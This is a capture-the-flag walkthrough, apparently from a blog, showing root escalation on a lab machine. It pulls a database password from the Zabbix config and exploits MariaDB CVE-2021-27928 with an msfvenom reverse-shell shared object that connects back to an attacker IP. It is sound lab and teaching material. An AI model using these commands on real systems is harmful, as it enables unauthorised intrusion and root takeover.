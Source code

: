 ## Shell as root
### Enumeration
#### MySQL

Checking at the running processes we can see there is mysql running.

I will check and see if I can get the credentials from Zabbix config file which resides in `/etc/zabbix`. The file is quite large and most of it contains default values and so many commented out.

![DB Password](/assets/img/shibboleth/dbpassword.png)

Awesome! lets log in to the mysql service

![MYSQL DB Version](/assets/img/shibboleth/msqldb version.png)

### CVE-2021-27928
#### Indentify

Looking at the MariaDB version online I find a Vulnerability (CVE-2021-27928) associated with it.

To take advantage of this vulnerability, I will need to create a shared object file (a type of DLL specifically for Linux systems) using the msfvenom tool and transfer the payload file to the target machine via wget as described in this [PoC](https://github.com/Al1ex/CVE-2021-27928){:target="_blank"}.


```json
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.20 LPORT=9003 -f elf-so -o george.so
```
![exploiting mariadb](/assets/img/shibboleth/exploiting mariadb.png)

Now we spin up a netcat session and wait for a connection.

![NC Session](/assets/img/shibboleth/ncsession.png)

#### Execute:

```lua
SET GLOBAL wsrep_provider="/tmp/george.so";
```

in the MariaDB server to trigger the payload.

![exploiting mariadb](/assets/img/shibboleth/exploitmariadb.png)

Eureka!! We have root access.

![And we are root](/assets/img/shibboleth/and we are root.png)

********* And that was fun!!. Thank you for taking time to read my blog ************
